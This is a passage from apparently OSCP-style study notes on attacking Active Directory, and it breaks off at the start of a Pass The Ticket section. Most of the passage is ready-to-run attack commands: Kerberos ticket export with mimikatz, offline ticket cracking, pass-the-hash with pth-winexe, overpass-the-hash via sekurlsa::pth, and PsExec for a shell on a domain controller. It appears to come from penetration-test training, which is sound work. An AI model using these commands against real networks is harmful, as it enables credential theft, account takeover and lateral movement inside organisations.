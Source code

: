 3. Dump the ticket
```powershell
mimikatz # kerberos::list /export
```

4. Crack the password
```bash
kali@kali:~$ sudo apt update && sudo apt install kerberoast
...
kali@kali:~$ python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```
alternatively use hashcat

# Active Directory Lateral Movement
If we failed to crack any cleartext password we could use to authenticate to other machines we ca abuse NTLM/Kerberos.

## Pass The Hash
Authenticate to a remote system or service using a user’s NTLM hash instead of the associated plaintext password.
Requires local Admin rights

```bash
kali@kali:~$ pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

## Overpass The Hash
The essence of the overpass the hash technique is to turn the NTLM hash into a Kerberos ticket and avoid the use of NTLM authentication.

```powershell
mimikatz # sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
```
This opens a new powershell which allows us to run commands as jeff_admin.
We are now able to request a TGT

```powershell
PS C:\Windows\system32> net use \\dc01
```
Our NTLM hash was converted into a kerberos TGT.

Finally get a shell on a remote machine
```powershell
PS C:\Tools\active_directory> .\PsExec.exe \\dc01 cmd.exe
```

## Pass The Ticket
The Pass the Ticket attack takes advantage of the TGS, which may be exported and re-injected 
elsewhere on the network and then used to authenticate to a specific service. In addition, if the 
service tickets belong to the current user, then no administrative privileges are required.
